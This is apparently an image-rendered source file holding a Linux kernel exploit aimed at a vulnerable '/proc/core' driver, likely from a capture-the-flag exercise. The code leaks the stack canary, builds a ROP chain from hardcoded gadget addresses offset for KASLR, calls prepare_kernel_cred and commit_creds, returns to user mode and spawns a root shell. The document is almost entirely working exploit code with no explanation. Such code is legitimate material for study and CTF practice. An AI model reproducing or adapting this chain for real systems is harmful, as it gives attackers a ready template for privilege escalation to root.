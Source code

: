 ```cpp
void core_copy_func(int fd, long long size) {
    printf("[*] Copy %ld byte(s) from user.\n", size);
    ioctl(fd, 0x6677889A, size);
}

uint64_t pop_rdi_ret = 0xffffffff81000b2f;
uint64_t pop_rdx_ret = 0xffffffff810a0f49;
uint64_t pop_rcx_ret = 0xffffffff81021e53;
uint64_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
uint64_t swapgs_popfq_ret = 0xffffffff81a012da;
uint64_t iretq_ret = 0xffffffff81050ac2;

int main() {
    save_status();
    int fd = open("/proc/core", 2);
    if(fd < 0) {
        puts("[*] Open /proc/core error...");
        exit(-1);
    }

    find_symbols();
    // gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
    ssize_t offset = vmlinux_base - raw_vmlinux_base;

    set_off(fd, 0x40);
    char buf[0x40];
    core_read(fd, buf);
    size_t canary = ((size_t *)buf)[0];
    printf("[+] Canary = %p\n", canary);

    size_t rop[0x1000] = {0};

    int i;
    for (i = 0; i < 10; i++)
        rop[i] = canary;
    // prepare_kernel_cred(0)
    rop[i++] = pop_rdi_ret + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;

    // ...
    rop[i++] = pop_rdx_ret + offset; // pop rdx ; ret
    rop[i++] = pop_rcx_ret + offset; // pop rcx ; ret
    rop[i++] = mov_rdi_rax_call_rdx + offset; // mov rdi, rax ; call rdx
    rop[i++] = commit_creds;

    // Restore registers
    rop[i++] = swapgs_popfq_ret + offset;
    rop[i++] = 0;

    rop[i++] = iretq_ret + offset;

    rop[i++] = (size_t)spawn_shell; // rip

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x800); // Write rop chain
    core_copy_func(fd, 0xffffffffffff0000 | (0x100));
    return 0;
}
```
